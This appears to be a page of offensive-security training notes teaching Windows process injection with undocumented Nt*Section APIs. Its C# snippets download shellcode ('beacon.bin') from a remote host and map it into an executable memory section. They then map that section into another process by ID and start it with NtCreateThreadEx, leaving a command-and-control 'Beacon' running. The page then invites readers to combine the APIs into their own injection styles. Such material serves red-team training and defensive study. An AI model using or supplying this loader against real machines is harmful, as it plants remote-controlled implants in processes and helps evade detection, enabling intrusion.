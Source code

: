 The Nt*Section set of APIs provides a nice alternative to VirtualAllocEx, WriteProcessMemory and VirtualProtectEx.  The big challenge with using these lower-level native APIs is that they're not officially documented, so we must rely on the efforts of individuals who perform reverse engineering on ntdll.dll to figure them out.  One such resource is [ntinternals.net](http://undocumented.ntinternals.net/index.html).

1.  Fetch the shellcode and create a new section within our current process.  The section has to be as large as the shellcode size.

```csharp
var shellcode = await client.GetByteArrayAsync("https://10.10.0.69/beacon.bin");

var hSection = IntPtr.Zero;
var maxSize = (ulong)shellcode.Length;

// Create a new section in the current process
Native.NtCreateSection(
    ref hSection,
    0x10000000,     // SECTION_ALL_ACCESS
    IntPtr.Zero,
    ref maxSize,
    0x40,           // PAGE_EXECUTE_READWRITE
    0x08000000,     // SEC_COMMIT
    IntPtr.Zero);
```

  

2.  Map the view of that section into memory of the current process.

```csharp
// Map that section into memory of the current process as RW
Native.NtMapViewOfSection(
    hSection,
    (IntPtr)(-1),   // will target the current process
    out var localBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out var _,
    2,              // ViewUnmap (created view will not be inherited by child processes)
    0,
    0x04);          // PAGE_READWRITE

// Copy shellcode into memory of our own process
Marshal.Copy(shellcode, 0, localBaseAddress, shellcode.Length);
```

  

3.  Get a handle to the target process and map the same section into it.  This will automatically copy the shellcode from our current process to the target.

```csharp
// Get reference to target process
var target = Process.GetProcessById(4148);

// Now map this region into the target process as RX
Native.NtMapViewOfSection(
    hSection,
    target.Handle,
    out var remoteBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out _,
    2,
    0,
    0x20);      // PAGE_EXECUTE_READ
```

  

4.  Create a new remote thread to execute the shellcode.

```csharp
// Shellcode is now in the target process, execute it (fingers crossed)
Native.NtCreateThreadEx(
    out _,
    0x001F0000, // STANDARD_RIGHTS_ALL
    IntPtr.Zero,
    target.Handle,
    remoteBaseAddress,
    IntPtr.Zero,
    false,
    0,
    0,
    0,
    IntPtr.Zero);
```

  

You should now have a Beacon running in the target process.


![[27. NtMapViewOfSection.png]]

 Think of all the APIs we've covered like items on a menu.  You can mix and match them to create your own style of injection.  For instance, you could spawn a process in a suspended state, use the Nt*Section APIs to map and copy the shellcode, and then QueueUserAPC or NtQueueApcThread to execute it.
